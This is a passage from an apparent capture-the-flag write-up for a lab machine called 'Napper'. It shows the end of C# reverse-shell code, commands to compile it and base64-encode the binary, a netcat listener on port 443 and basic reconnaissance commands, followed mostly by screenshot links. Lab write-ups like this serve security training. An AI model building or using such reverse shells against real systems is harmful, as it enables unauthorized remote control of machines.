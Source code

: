 ```c

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }
 }
}
```

```bash
chmod +x Reverse.cs
mcs -o:Reverse.exe Reverse.cs
base64 -w 0 Reverse.exe; echo
rlwrap nc -nlvp 443                       # <-- Not very efficient in navigation!       I'm forget -cAr :(

# Burpsuite !!
# URL-Encode key characters!!     :):)

whoami
hostname
ipconfig
```

<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_029.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_030.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_031.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_032.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_033.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_034.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_035.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_036.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
